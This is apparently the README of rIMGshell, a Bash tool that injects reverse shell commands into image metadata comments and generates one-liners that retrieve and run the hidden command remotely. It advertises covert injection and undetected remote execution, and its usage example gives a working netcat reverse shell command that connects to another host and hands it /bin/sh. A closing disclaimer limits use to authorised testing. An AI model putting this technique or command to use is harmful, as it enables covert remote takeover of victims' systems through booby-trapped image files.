 # rIMGshell
[![Sponsor](https://img.shields.io/badge/Sponsor-%E2%9D%A4-red)](https://github.com/sponsors/git5loxosec) [![Kali Linux Compatible](https://img.shields.io/badge/Kali%20Linux-Compatible-brightgreen)](https://www.kali.org/) 
[![Reverse Shell Project](https://img.shields.io/badge/Project-Reverse_Shell-blueviolet?style=flat-square)]
 <img src="https://camo.githubusercontent.com/f25217d6db3b6cb603d9fb4a2b017a682aae3b1ec5c6ffab653f6cd31eceb73c/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f446576656c6f7065642532306f6e2d6b616c692532306c696e75782d626c756576696f6c6574"> 
 ![Language](https://img.shields.io/badge/Language-Bash-green.svg)
 ![License](https://img.shields.io/badge/License-MIT-blue.svg) 


<img src="https://github.com/git5loxosec/rIMGshell/blob/main/github_rimgshell1.png">
Clean image file no reverse shell.
<img src="https://github.com/git5loxosec/rIMGshell/blob/main/github_rimgshell2.png">
The reverse shell injection method used here wont affect the integrity of the image file.
<img src="https://github.com/git5loxosec/rIMGshell/blob/main/github_rimgshell3.png">
Connection established, mission accomplished!



# Description:

rIMGshell is a command-line tool for injecting a reverse shell command into an image and generating one-liner execution methods.

# How It Works:
rIMGshell takes a reverse shell command and an image file as input. It then injects the command into the image using metadata comments. After injection, it generates a one-liner execution method for retrieving and executing the injected command from a remote location.

# Features:
Covert Command Injection: Inject reverse shell commands into image files.
Multiple Execution Methods: Choose from various one-liner execution methods for retrieving and executing the injected command.
Versatile Compatibility: Works with common Linux command-line utilities such as exiftool, exiv2, identify, file, and jpeginfo.
Secure Communication: Execute commands remotely without revealing their presence in the image.

## Installation

1. Clone the repository:

   ```
   git clone https://github.com/git5loxosec/rIMGshell
   ```

2. Change to the project directory:

   ```
   cd rIMGshell
   ```

3. Make the script executable:

   ```
   chmod +x rIMGshell.sh
   ```

## Usage

```
./rIMGshell.sh [OPTIONS] <REVERSE_SHELL_COMMAND> <IMAGE_FILENAME>
```

- `[OPTIONS]` - Optional arguments.
- `<REVERSE_SHELL_COMMAND>` - The reverse shell command to inject.
- `<IMAGE_FILENAME>` - The name of the image file.

**Example:**

```
./rIMGshell.sh "nc 192.168.1.128 4444 -e /bin/sh" image.jpg
```

Note: Ensure that you have the required dependencies (e.g., exiftool, curl) installed on your system before using rIMGshell.

**Warning: Ethical and Responsible Use Only
rIMGshell is intended for legitimate and ethical purposes, such as penetration testing, cybersecurity assessments, and educational use. Unauthorized use of this tool for malicious activities is strictly prohibited and may have serious legal consequences. Ensure that you have proper authorization and adhere to all applicable laws and regulations before using rIMGshell.**


## License


This project is licensed under the [MIT License](LICENSE).
